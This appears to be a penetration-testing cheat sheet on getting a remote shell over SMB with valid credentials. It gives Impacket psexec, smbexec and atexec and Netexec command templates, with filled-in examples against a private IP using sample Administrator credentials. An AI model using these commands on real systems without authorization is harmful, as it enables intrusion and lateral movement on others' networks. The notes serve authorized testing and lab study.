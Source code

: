 -- -
Get a shell on remote system via SMB. This is for when you have valid credentials but no SSH or RDP access and you want to get a shell on the system. From a windows sysem, you can use the actual PSExec Sysinterals tool located [here](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec). Otherwise, from Linux, you can use one of the following tools which implement similar functionality albeit in slightly different ways:
1. Impacket PsExec
2. Impacket SMBExec
3. Impacket atexec
4. Netexec
5. Metasploit PsExec
### Impacket
```bash
# same syntax for all 3

# PsExec
impacket-psexec <user>:'<passwd>'@<ip> 
impacket-psexec administrator:'Password123!'@10.10.110.17

# SMBExec
impacket-smbexec <user>:'<passwd>'@<ip>
impacket-smbexec administrator:'Password123!'@10.10.110.17

# atexec
impacket-atexec <user>:'<passwd>'@<ip>
impacket-atexec administrator:'Password123!'@10.10.110.17
```

^2f3c64

### Netexec
```bash
# if --exec-method is not definied, it defaults to "atexec"
netexec smb <ip> -u <user> -p '<passwd>' -x '<cmd>' --exec-method smbexec
netexec smb <ip> -u <user> -p '<passwd>' -x '<cmd>' --exec-method atexec

netexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
netexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method atexec
```